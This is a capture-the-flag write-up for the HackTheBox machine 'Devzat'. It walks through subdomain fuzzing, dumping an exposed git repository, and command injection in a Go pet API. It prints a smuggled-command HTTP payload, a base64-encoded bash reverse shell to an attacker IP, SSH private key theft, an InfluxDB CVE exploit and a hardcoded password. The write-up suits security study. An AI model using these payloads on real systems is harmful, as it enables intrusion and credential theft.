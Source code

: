 # Devzat | Linux

<ins>Platform</ins>: **HackTheBox**\
<ins>Name</ins>: **Devzat**\
<ins>Difficulty</ins>: **Medium**\
<ins>Info</ins>: **ssh, port-forwarding**

## Scan | Nmap

![image](https://user-images.githubusercontent.com/68467919/155146623-6be18710-2758-4640-9910-e779bd5c8bea.png)

## Vhost

```bash
wfuzz -c -f enum/subdomains.txt -u http://devzat.htb -w /home/r0s3/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.devzat.htb" --hw 26
```

![image](https://user-images.githubusercontent.com/68467919/155146692-1e7b41cc-b8a3-4360-bfd4-8695a1e40580.png)

Subdomain “pets”.

## SSH | Port 8000

![image](https://user-images.githubusercontent.com/68467919/155146752-649b06b1-4d55-4543-a717-37efd376bb78.png)

## Port 80 | Apache

![image](https://user-images.githubusercontent.com/68467919/155146823-e5a54dc9-2560-4055-b418-78d229b9002c.png)

![image](https://user-images.githubusercontent.com/68467919/155146857-3ab7c208-1937-424f-83b6-0e68d523dadc.png)

It is possible to connect to the SSH server of the machine with any username.

## Pets | Subdomain

![image](https://user-images.githubusercontent.com/68467919/155146967-64ffb283-eccc-4c81-9b31-94b2aa1589fc.png)

<aside>
When a request is made, it is done on /api/pet
</aside>

The subdomain has a “.git” file which would be possible to dump with git-dump.py

![image](https://user-images.githubusercontent.com/68467919/155147017-5bcc2a35-f855-4066-95a1-17b01e1813a3.png)

Then I use the GitTools extractor to extract the data I recovered.

![image](https://user-images.githubusercontent.com/68467919/155147054-5bfe52b4-015b-4c05-9e3c-c29ffc39fc58.png)

## 🤖 Code Analysis | golang

Dans le fichier *main.go* une partie est intéressante selon moi : 

```go
func loadCharacter(species string) string {
	cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
	stdoutStderr, err := cmd.CombinedOutput()
	if err != nil {
		return err.Error()
	}
	return string(stdoutStderr)
}
```

For better understanding, I will try to explain the code.

We have the loadCharacter function which takes as parameter species, of type string.

The **cmd** variable contains the return of exec.Command which will execute the “cat” command in the characteristics folder.

One of the vulnerabilities I first thought of was a LFI. Try cat /etc/passwd or a config file. After several attempts, I'm thinking of trying an OS Injection.

If I send the following request:

```bash
POST /api/pet HTTP/1.1
Host: pets.devzat.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pets.devzat.htb/
Content-Type: text/plain;charset=UTF-8
Origin: http://pets.devzat.htb
Content-Length: 81
Connection: close

{"name":"aaaa",
"species":"cat;ping -c 5 10.10.14.5"
}
```


I do get requests from pets.devzat.htb:

![image](https://user-images.githubusercontent.com/68467919/155147108-b99eba0d-a0e6-4b0e-b833-bc055793342a.png)
## Reverse-Shell

First, I tried a reverse-shell without encoding it in base64. But it didn't work and I didn't get any feedback on Netcat.

```bash
bash -i >& /dev/tcp/10.10.14.5/1337 0>&1 | bash
```

The following payload works and makes me pop a reverse-shell:

```bash
echo "bash -i >& /dev/tcp/10.11.14.5/1337 0>&1" | base64
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzEzMzcgMD4mMQo=" | base64 -d | bash
```

First, I display the string “*YmFzaC[...]MD4mMQo=*”, I decode it in base64 then I execute the decoded string with “bash”

![image](https://user-images.githubusercontent.com/68467919/155147194-6a4defd6-5f1d-4541-b61e-8b4b6b85d26b.png)

After spawning a “stable” shell with the command:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

I go to /home/patrick and notice that a /.ssh folder is present with an id_rsa inside! Great, we can steal Patrick's private key to connect to his SSH session!

```bash
ssh -i id_rsa patrick@devzat.htb
```

![image](https://user-images.githubusercontent.com/68467919/155147248-414720bd-d089-4bb9-b588-13cd80b29950.png)

## SSH | Port 22

### LinPeas

Some interesting ports including the “8086”.

![image](https://user-images.githubusercontent.com/68467919/155147296-ace73a89-7ab4-47b8-967a-a8ea6b89ce90.png)
After performing a local port-forwarding on port 8086, I get this page:

![image](https://user-images.githubusercontent.com/68467919/155147329-f7c46cd2-02e8-48b7-820e-4cbe8edc72ca.png)
After listing:

![image](https://user-images.githubusercontent.com/68467919/155147409-873cfa9c-78e8-424b-99c5-8dce8e767eaf.png)

nmap scan on the local port to know which service is running.

![image](https://user-images.githubusercontent.com/68467919/155147439-765d985e-c0c8-476b-8b61-ce95c973c95d.png) \

After searching the internet, I came across this Github repo.

[GitHub - LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933: InfluxDB CVE-2019-20933 vulnerability exploit](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

![image](https://user-images.githubusercontent.com/68467919/155147951-884a5933-fd4f-4091-8473-f464e54bd317.png)

Now we have to select the database we want to explore.

To enumerate our database, we will refer to the following cheat-sheet:

[InfluxDB command cheatsheet](https://songrgg.github.io/operation/influxdb-command-cheatsheet/)

![image](https://user-images.githubusercontent.com/68467919/155148005-9e7651eb-7212-4e89-8096-8f95f460212e.png)

![image](https://user-images.githubusercontent.com/68467919/155148053-dbea62e9-5868-4e9a-b24f-f4fbd175990d.png)

Great, we have multiple user passwords. One in particular is interesting because I found it while listing the machine from Patrick's account. So let's try to connect to Catherine's account!

![image](https://user-images.githubusercontent.com/68467919/155148119-6269e757-063d-46ce-bca2-9545591e018b.png)

In the /var/backups directory, we find two .zip files named “devzat-dev.zip” and “devzat-main.zip”.

After unpacking them, we notice that the two files are similar. I searched for a long time to understand what to do and I came across this code there, in the file dev/devzat.go

```go
import (
	port = 8443
		port, err = strconv.Atoi(os.Getenv("PORT"))
	fmt.Printf("Starting chat server on port %d\n", port)
		fmt.Sprintf("127.0.0.1:%d", port),
		u.writeln("patrick", "I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.")
```

What we understand here is that an instance of the SSH service is running on port 8443. That's a good lead.

To make it easier, the diff command can be used to find out the differences between the two specified folders.

```bash
diff dev/ main/
```

The results are many, but the most important are:

```go
commands = []commandInfo{clear, message, users, all, exit, bell, room, kick, id, _commands, nick, color, timezone, emojis, help, tictactoe, hangman, shrug, asciiArt, exampleCode, file}

// Check my secure password
if pass != "CeilingCatStillAThingIn2021?" {
	u.system("You did provide the wrong password")
	return
	}
}

func fileCommand(u *user, args []string) {
	if len(args) < 1 {
		u.system("Please provide file to print and the password")
	 	return
}
 
if len(args) < 2 {
 	u.system("You need to provide the correct password to use this function")
 	return
}
 
 	path := args[0]
 	pass := args[1]
```
We can already notice that we have a command list, one catches my attention, “file”, a password is written in plain text in the code as well.

From Catherine's session, so let's try to connect to the SSH service and try to read the contents of the root.txt file

![image](https://user-images.githubusercontent.com/68467919/155148273-2081b0c5-a74e-44e7-9383-4217685d4f3a.png)

**FLAGGED !!!**
